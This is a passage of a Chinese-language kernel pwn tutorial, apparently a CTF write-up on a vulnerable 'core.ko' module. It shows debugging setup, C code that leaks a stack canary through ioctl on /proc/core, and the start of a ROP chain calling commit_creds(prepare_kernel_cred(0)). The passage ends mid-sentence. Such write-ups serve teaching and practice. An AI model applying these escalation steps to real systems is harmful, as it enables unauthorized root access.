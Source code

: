 连上去后就可以直接下断点了

也可以通过如下命令设置一下偏移，不过我直接下断点也没出现过问题，下好断点后 c 就可以继续执行

```shell
add-symbol-file core.ko  0xffffffffc030c000
```

![image-20220915174353383](img/image-20220915174353383.png)

随后回到那个终端，执行exp就可以达到断点位置

## 漏洞利用

前面介绍了漏洞点和调试方法，接下来开始漏洞利用，首先是泄露 canary 地址

通过 open 打开设备后，iotcl 按着条件来即可

```c
int fd = open("/proc/core" , O_RDWR);

ioctl(fd ,0x6677889c , 0x40 );
ioctl(fd ,0x6677889b , buf );
canary = *(size_t *)(buf);
info("canary" ,canary);
```

然后是重中之重的rop环节，内核的rop链构造需要首先保存现场，随后在rop结束后返回到用户态 恢复现场，而在rop的过程中需要执行一个嵌套调用 `commit_creds(prepare_kernel_cred(0)) `

那么我们至少需要如下 gadget，这些gadget可以在 vmlinux 里找到

```python
pop rdi ;ret;
mov rdi ,rax;ret;
```

然而这里边没有第二个 gadget，但存在如下 gadget
